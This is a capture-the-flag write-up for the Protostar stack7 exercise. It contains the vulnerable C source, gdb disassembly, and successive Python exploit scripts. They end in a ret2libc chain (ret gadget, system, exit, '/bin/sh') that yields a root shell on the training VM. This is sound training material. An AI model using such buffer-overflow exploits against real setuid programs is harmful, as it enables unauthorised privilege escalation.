


#### Stack7

###### About

- Stack6 introduces return to ``.text`` to gain code execution.
- The metasploit tool ``msfelfscan`` can make searching for suitable instructions very easy, otherwise looking through ``objdump`` output will suffice.
- This level is at ``/opt/protostar/bin/stack7``
- **``ret2text``**

``stack7.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack7
input path please: dfhbj
got path dfhbj
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ cat /tmp/pattern | ./stack7
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack7 -q
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048545 <main+0>:	push   ebp
0x08048546 <main+1>:	mov    ebp,esp
0x08048548 <main+3>:	and    esp,0xfffffff0
0x0804854b <main+6>:	call   0x80484c4 <getpath>
0x08048550 <main+11>:	mov    esp,ebp
0x08048552 <main+13>:	pop    ebp
0x08048553 <main+14>:	ret
End of assembler dump.
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>:	push   ebp
0x080484c5 <getpath+1>:	mov    ebp,esp
0x080484c7 <getpath+3>:	sub    esp,0x68
0x080484ca <getpath+6>:	mov    eax,0x8048620
0x080484cf <getpath+11>:	mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:	call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:	mov    eax,ds:0x8049780
0x080484dc <getpath+24>:	mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:	call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:	call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:	and    eax,0xb0000000
0x080484fd <getpath+57>:	cmp    eax,0xb0000000
0x08048502 <getpath+62>:	jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:	mov    eax,0x8048634
0x08048509 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:	mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:	call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:	call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:	mov    eax,0x8048640
0x08048529 <getpath+101>:	lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:	mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:	call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:	lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:	mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:	call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:	leave
0x08048544 <getpath+128>:	ret
End of assembler dump.
(gdb) r < /tmp/pattern
Starting program: /opt/protostar/bin/stack7 < /tmp/pattern
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb)
```

```sh
>>> chr(0x55)
'U'
>>>
```



`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
eip = struct.pack('I', 0xbffff780)
payload = "\xCC"*4

print padding+eip+payload
```

```sh
user@protostar:/tmp$ python exploit.py > exploit
```

```sh
user@protostar:/opt/protostar/bin$ cat /tmp/exploit | ./stack7
input path please: bzzzt (0xbffff780)
user@protostar:/opt/protostar/bin$
```

```sh
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>:	push   %ebp
0x080484c5 <getpath+1>:	mov    %esp,%ebp
0x080484c7 <getpath+3>:	sub    $0x68,%esp
0x080484ca <getpath+6>:	mov    $0x8048620,%eax
0x080484cf <getpath+11>:	mov    %eax,(%esp)
0x080484d2 <getpath+14>:	call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:	mov    0x8049780,%eax
0x080484dc <getpath+24>:	mov    %eax,(%esp)
0x080484df <getpath+27>:	call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:	lea    -0x4c(%ebp),%eax
0x080484e7 <getpath+35>:	mov    %eax,(%esp)
0x080484ea <getpath+38>:	call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:	mov    0x4(%ebp),%eax
0x080484f2 <getpath+46>:	mov    %eax,-0xc(%ebp)
0x080484f5 <getpath+49>:	mov    -0xc(%ebp),%eax
0x080484f8 <getpath+52>:	and    $0xb0000000,%eax
0x080484fd <getpath+57>:	cmp    $0xb0000000,%eax
0x08048502 <getpath+62>:	jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:	mov    $0x8048634,%eax
0x08048509 <getpath+69>:	mov    -0xc(%ebp),%edx
0x0804850c <getpath+72>:	mov    %edx,0x4(%esp)
0x08048510 <getpath+76>:	mov    %eax,(%esp)
0x08048513 <getpath+79>:	call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:	movl   $0x1,(%esp)
0x0804851f <getpath+91>:	call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:	mov    $0x8048640,%eax
0x08048529 <getpath+101>:	lea    -0x4c(%ebp),%edx
0x0804852c <getpath+104>:	mov    %edx,0x4(%esp)
0x08048530 <getpath+108>:	mov    %eax,(%esp)
0x08048533 <getpath+111>:	call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:	lea    -0x4c(%ebp),%eax
0x0804853b <getpath+119>:	mov    %eax,(%esp)
0x0804853e <getpath+122>:	call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:	leave
0x08048544 <getpath+128>:	ret
End of assembler dump.
(gdb)
```

`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
ret = struct.pack('I', 0x08048544)
eip = struct.pack('I', 0xbffff780)
payload = "\xCC"*4

print padding+ret+eip+payload
```

```sh
user@protostar:/tmp$ python exploit.py > exploit
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack7 -q
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048545 <main+0>:	push   ebp
0x08048546 <main+1>:	mov    ebp,esp
0x08048548 <main+3>:	and    esp,0xfffffff0
0x0804854b <main+6>:	call   0x80484c4 <getpath>
0x08048550 <main+11>:	mov    esp,ebp
0x08048552 <main+13>:	pop    ebp
0x08048553 <main+14>:	ret
End of assembler dump.
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>:	push   ebp
0x080484c5 <getpath+1>:	mov    ebp,esp
0x080484c7 <getpath+3>:	sub    esp,0x68
0x080484ca <getpath+6>:	mov    eax,0x8048620
0x080484cf <getpath+11>:	mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:	call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:	mov    eax,ds:0x8049780
0x080484dc <getpath+24>:	mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:	call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:	call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:	and    eax,0xb0000000
0x080484fd <getpath+57>:	cmp    eax,0xb0000000
0x08048502 <getpath+62>:	jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:	mov    eax,0x8048634
0x08048509 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:	mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:	call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:	call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:	mov    eax,0x8048640
0x08048529 <getpath+101>:	lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:	mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:	call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:	lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:	mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:	call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:	leave
0x08048544 <getpath+128>:	ret
End of assembler dump.
(gdb) break *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack7 < /tmp/exploit
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPDRRRRSSSSTTTTD��������
0x8048544 <getpath+128>:	ret
0xbffff77c:	0x08048544	0xbffff780	0xcccccccc	0xbffff800
0xbffff78c:	0xb7eadc76	0x00000001	0xbffff834	0xbffff83c

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24	stack7/stack7.c: No such file or directory.
	in stack7/stack7.c
(gdb) si
0x8048544 <getpath+128>:	ret
0xbffff780:	0xbffff780	0xcccccccc	0xbffff800	0xb7eadc76
0xbffff790:	0x00000001	0xbffff834	0xbffff83c	0xb7fe1848

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24	in stack7/stack7.c
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff780	0xbffff780
ebp            0x54545454	0x54545454
esi            0x0	0
edi            0x0	0
eip            0x8048544	0x8048544 <getpath+128>
eflags         0x200202	[ IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) si
Cannot access memory at address 0x54545458
(gdb)
0xbffff783:	mov    edi,0xcccccccc
0xbffff784:	0xcccccccc	0xbffff800	0xb7eadc76	0x00000001
0xbffff794:	0xbffff834	0xbffff83c	0xb7fe1848	0xbffff7f0
0xbffff783 in ?? ()
(gdb) c
Continuing.

Program received signal SIGILL, Illegal instruction.
0xbffff78a:	(bad)
0xbffff784:	0xcccccccc	0xbffff800	0xb7eadc76	0x00000001
0xbffff794:	0xbffff834	0xbffff83c	0xb7fe1848	0xbffff7f0
0xbffff78a in ?? ()
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) r
Starting program: /opt/protostar/bin/stack6
input path please: AAA
got path AAA

Program exited with code 015.
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack7 -q
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) break main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7

Breakpoint 1, main (argc=1, argv=0xbffff834) at stack7/stack7.c:28
28	stack7/stack7.c: No such file or directory.
	in stack7/stack7.c
(gdb) x/s 0xb7e97000+0x0011f3bf
0xb7fb63bf:	 "/bin/sh"
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ objdump -d stack7 -M intel | grep ret
 8048383:	c3                   	ret
 8048494:	c3                   	ret
 80484c2:	c3                   	ret
 8048544:	c3                   	ret
 8048553:	c3                   	ret
 8048564:	c3                   	ret
 80485c9:	c3                   	ret
 80485cd:	c3                   	ret
 80485f9:	c3                   	ret
 8048617:	c3                   	ret
user@protostar:/opt/protostar/bin$
```

`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
ret 	= struct.pack("I", 0x08048544) # objdump -d stack7 -M intel | grep ret
system  = struct.pack("I", 0xb7ecffb0) # p system
exit    = struct.pack("I", 0xb7ec60c0) # p exit {Return after system call}
bin_sh  = struct.pack("I", 0xb7fb63bf) # {strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"} & {x/s 0xb7e97000+0x0011f3bf}

print padding+ret+system+exit+bin_sh
```

```sh
user@protostar:/tmp$ python exploit.py > exploit
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack7 -q
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048545 <main+0>:	push   ebp
0x08048546 <main+1>:	mov    ebp,esp
0x08048548 <main+3>:	and    esp,0xfffffff0
0x0804854b <main+6>:	call   0x80484c4 <getpath>
0x08048550 <main+11>:	mov    esp,ebp
0x08048552 <main+13>:	pop    ebp
0x08048553 <main+14>:	ret
End of assembler dump.
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>:	push   ebp
0x080484c5 <getpath+1>:	mov    ebp,esp
0x080484c7 <getpath+3>:	sub    esp,0x68
0x080484ca <getpath+6>:	mov    eax,0x8048620
0x080484cf <getpath+11>:	mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:	call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:	mov    eax,ds:0x8049780
0x080484dc <getpath+24>:	mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:	call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:	call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:	and    eax,0xb0000000
0x080484fd <getpath+57>:	cmp    eax,0xb0000000
0x08048502 <getpath+62>:	jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:	mov    eax,0x8048634
0x08048509 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:	mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:	call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:	call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:	mov    eax,0x8048640
0x08048529 <getpath+101>:	lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:	mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:	call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:	lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:	mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:	call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:	leave
0x08048544 <getpath+128>:	ret
End of assembler dump.
(gdb) break *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack7 < /tmp/exploit
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPDRRRRSSSSTTTTD����`췿c�
0x8048544 <getpath+128>:	ret
0xbffff77c:	0x08048544	0xb7ecffb0	0xb7ec60c0	0xb7fb63bf
0xbffff78c:	0xb7eadc00	0x00000001	0xbffff834	0xbffff83c

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24	stack7/stack7.c: No such file or directory.
	in stack7/stack7.c
(gdb) si
0x8048544 <getpath+128>:	ret
0xbffff780:	0xb7ecffb0	0xb7ec60c0	0xb7fb63bf	0xb7eadc00
0xbffff790:	0x00000001	0xbffff834	0xbffff83c	0xb7fe1848

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24	in stack7/stack7.c
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff780	0xbffff780
ebp            0x54545454	0x54545454
esi            0x0	0
edi            0x0	0
eip            0x8048544	0x8048544 <getpath+128>
eflags         0x200202	[ IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) si
0xb7ecffb0 <__libc_system>:	sub    esp,0xc
0xbffff784:	0xb7ec60c0	0xb7fb63bf	0xb7eadc00	0x00000001
0xbffff794:	0xbffff834	0xbffff83c	0xb7fe1848	0xbffff7f0
__libc_system (line=0xb7fb63bf "/bin/sh") at ../sysdeps/posix/system.c:179
179	../sysdeps/posix/system.c: No such file or directory.
	in ../sysdeps/posix/system.c
(gdb)
0xb7ecffb3 <__libc_system+3>:	mov    DWORD PTR [esp+0x4],esi
0xbffff778:	0x54545454	0x08048544	0xb7ecffb0	0xb7ec60c0
0xbffff788:	0xb7fb63bf	0xb7eadc00	0x00000001	0xbffff834
0xb7ecffb3	179	in ../sysdeps/posix/system.c
(gdb)
```



```sh
user@protostar:/opt/protostar/bin$ (cat /tmp/exploit; cat) | ./stack7
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPDRRRRSSSSTTTTD����`췿c�
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
^C
user@protostar:/opt/protostar/bin$
```